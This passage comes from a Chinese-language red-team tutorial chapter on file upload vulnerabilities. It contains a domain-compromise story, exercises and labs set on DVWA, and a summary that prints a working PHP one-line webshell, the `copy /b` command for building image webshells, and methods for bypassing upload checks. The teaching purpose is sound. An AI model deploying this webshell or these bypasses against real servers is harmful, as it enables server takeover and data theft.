   - 拿到了域用户的凭据

5. **横向移动**
   - 用拿到的凭据横向移动
   - 一台一台打过去
   - 找到了域管理员的机器

6. **拿域控**
   - 域管理员登录过这台机器
   - 拿到了域管理员的哈希
   - Pass-the-Hash登录域控
   - 成功拿下域控

从一个文件上传漏洞，
一步步拿下了整个域。

"这就是为什么文件上传漏洞这么危险。"
老周对新人说，
"一个入口点，
就能打出一套组合拳。"

> 老K说：
> **"文件上传漏洞的危害，
> 往往不止于拿到WebShell。**
>
> 拿到WebShell只是第一步，
> 接下来还可以：
> - 读配置文件拿数据库
> - 提权拿系统权限
> - 抓取密码哈希
> - 横向移动
> - 打域控
> - ...
>
> 一个漏洞，
> 可能就是整个内网的突破口。
>
> 所以防守方一定要重视文件上传漏洞，
> 攻击方也要好好利用这个突破口。"

---

## ✏️ 课后习题

### 选择题

1. 文件上传漏洞最大的危害是？
   - A. 篡改网页
   - B. 上传恶意文件，执行代码，控制服务器
   - C. 偷Cookie
   - D. 钓鱼

2. 以下哪个不是常见的文件上传验证方式？
   - A. 前端JS验证
   - B. MIME类型验证
   - C. 文件头验证
   - D. 验证文件大小

3. 前端JS验证怎么绕过？
   - A. 抓包修改文件名
   - B. 禁用JavaScript
   - C. 直接构造请求
   - D. 以上都可以

4. MIME类型验证检查的是哪个字段？
   - A. Content-Length
   - B. Content-Type
   - C. Content-Disposition
   - D. User-Agent

5. MIME类型验证怎么绕过？
   - A. 修改Content-Type字段
   - B. 修改文件名
   - C. 修改文件内容
   - D. 修改请求方法

6. JPG文件的文件头（幻数）是？
   - A. `89 50 4E 47`
   - B. `47 49 46 38`
   - C. `FF D8 FF`
   - D. `42 4D`

7. GIF文件的文件头是？
   - A. `GIF89a` 或 `GIF87a`
   - B. `PNG`
   - C. `JPEG`
   - D. `BMP`

8. 以下哪个是图片马的制作方法？
   - A. 图片和木马文件拼接
   - B. 在木马文件前加图片文件头
   - C. 以上都可以
   - D. 以上都不对

9. 以下哪个不是WebShell管理工具？
   - A. 中国菜刀
   - B. 蚁剑
   - C. Nmap
   - D. 哥斯拉

10. PHP一句话木马的核心是？
    - A. 接收参数并执行代码
    - B. 显示phpinfo
    - C. 连接数据库
    - D. 上传文件

### 填空题

1. 文件上传漏洞的三个条件是：______、______、______。

2. 常见的文件上传验证方式有：______、______、______、______。

3. 经典的PHP一句话木马是______。

4. 请写出三个WebShell管理工具：______、______、______。

5. MIME类型验证检查的是HTTP请求中的______字段。

6. JPG文件的文件头是______，PNG的文件头是______，GIF的文件头是______。

7. 前端验证的绕过方法有：______、______、______。

8. 图片马的制作方法有：______和______。

9. 文件后缀名验证分为______和______两种。

10. 文件上传漏洞一般被评为______危或______危漏洞。

### 简答题

1. 用自己的话说说，什么是文件上传漏洞？

2. 文件上传漏洞有什么危害？

3. 常见的文件上传验证方式有哪些？分别怎么绕过？

4. 什么是一句话木马？原理是什么？

5. 常见的WebShell管理工具有哪些？各有什么特点？

6. 前端验证为什么不安全？怎么绕过？

7. MIME类型验证为什么不安全？怎么绕过？

8. 什么是文件头验证？怎么绕过？

9. 什么是图片马？怎么制作？

10. 文件上传漏洞成功利用需要哪几个条件？

### 实操题

1. **基础上传练习：**
   - 打开DVWA，Upload模块，难度Low
   - 上传一个PHP一句话木马
   - 用菜刀或者蚁剑连接
   - 看看能不能执行命令、浏览文件
   - 体验文件上传的威力

2. **前端验证绕过练习：**
   - 打开DVWA，Upload模块，难度Medium
   - 试试能不能绕过验证上传PHP文件
   - 用BurpSuite抓包修改
   - 记录绕过方法

3. **MIME类型绕过练习：**
   - 找一个MIME类型验证的上传场景
   - 用BurpSuite修改Content-Type
   - 测试能不能绕过
   - 理解MIME验证的原理和缺陷

4. **图片马制作练习：**
   - 找一张正常的JPG图片
   - 用`copy /b`命令制作图片马
   - 用十六进制编辑器查看文件结构
   - 理解图片马的原理
   - 配合文件包含漏洞测试能不能执行

5. **WebShell工具使用练习：**
   - 下载安装蚁剑（或者菜刀）
   - 在DVWA上上传一句话木马
   - 用蚁剑连接
   - 试试文件管理、虚拟终端、数据库管理等功能
   - 熟悉工具的使用

---

## 📝 本章小结

这一章，
我们学习了文件上传漏洞的基础知识。

总结一下重点：

1. **什么是文件上传漏洞**
   - 网站允许上传文件，但验证不严格
   - 攻击者可以上传恶意脚本，控制服务器
   - 三个条件：能上传、能访问、能执行

2. **文件上传的危害**
   - 直接拿WebShell
   - 挂黑页、挂马
   - 偷数据
   - 提权拿服务器
   - 内网渗透突破口
   - 高危/严重级别

3. **常见的验证方式**
   - 前端JS验证（最容易绕过）
   - MIME类型验证（Content-Type，可伪造）
   - 文件后缀名验证（黑名单/白名单）
   - 文件头验证（幻数检查）
   - 文件内容检测
   - 其他（大小、重命名、二次渲染等）

4. **一句话木马**
   - PHP经典版：`<?php @eval($_POST['cmd']); ?>`
   - 原理：接收参数，eval执行
   - 有很多变形，用来绕过检测
   - 其他语言也有对应的一句话

5. **WebShell管理工具**
   - 中国菜刀（经典、老牌）
   - 蚁剑（开源、功能多、推荐新手用）
   - 哥斯拉（功能强、免杀好）
   - 冰蝎（加密好、免杀好）
   - 图形化管理，方便易用

6. **前端验证绕过**
   - 抓包改文件名
   - 禁用JS
   - 改前端代码
   - 直接构造请求
   - 前端验证完全不可信

7. **MIME类型绕过**
   - 修改Content-Type字段
   - 改成image/jpeg、image/png等
   - MIME是客户端提供的，可任意伪造

8. **文件头验证绕过（图片马）**
   - 在木马前加图片文件头
   - 图片和木马拼接
   - `copy /b 图片.jpg + 木马.php 输出.jpg`
   - GIF头最简单：`GIF89a`
   - 图片马通常需要配合其他漏洞才能执行

> 最后送你一句话：
> **"文件上传是拿Shell最快的方式，
> 也是Web漏洞里最刺激的之一。
>
> 基础的绕过很简单，
> 但是更复杂的绕过还在后面。
> 这一章只是入门，
> 下一章我们会讲更多高级的绕过技巧。
>
> 准备好了吗？
> 让我们继续深入！"**

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day025-basic-XSS模块总结)
- [➡️ 下一章：---](/redteam/day027-basic-文件上传进阶)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
